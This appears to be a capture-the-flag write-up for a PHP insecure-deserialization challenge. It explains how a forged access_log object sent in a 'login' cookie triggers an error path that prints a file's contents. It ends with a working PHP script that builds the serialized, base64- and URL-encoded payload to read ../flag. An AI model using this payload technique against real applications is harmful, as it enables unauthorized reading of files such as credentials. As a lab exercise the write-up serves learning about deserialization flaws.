 ```php
		$g = $perm->is_guest();
		$a = $perm->is_admin();
	}
	catch(Error $e){
		die("Deserialization error. ".$perm);
	}
}

?>
```

we notice that the catch clause at the end outputs “Deserialization error” and the output of the call of _toString() on $perm

if perm is a permissions object then the _toString() will return username and password, however if it is and access_log object it will print the contents of the log_file, since the _toString() of the access_log class will be called instead

in order to make an access_log object enter that catch block we can url encode it, serialize it, base_64 encode it and set it as the value of a cookie named “login”

When the cookie will be detected, the try block will start running but when PHP tries to call is_guest() on $perm, it will throw an error since $perm is an object of type access_log and not permissions, hence it does not have a definition for the functions is_guest() and is_admin()

The error will be caught and the contents of the log_file will be printed

Now we refer back to the hint:

![Untitled](Super%20Serial%209d8291603d394833a6826f5a447b73a4/Untitled%205.png)

if the flag is at ../flag then we just need to create an access_log object with the log_file field containing the path to ../flag

Then we serialize it, base64 encode it and url encode it

```php
<?php
class access_log
{
	public $log_file;

	function __construct($lf) {
		$this->log_file = $lf;
	}

	function __toString() {
		return $this->read_log();
	}

	function append_to_log($data) {
		file_put_contents($this->log_file, $data, FILE_APPEND);
	}

	function read_log() {
		return file_get_contents($this->log_file);
	}
}

echo(urlencode(base64_encode(serialize((new access_log("../flag"))))));
?>
```
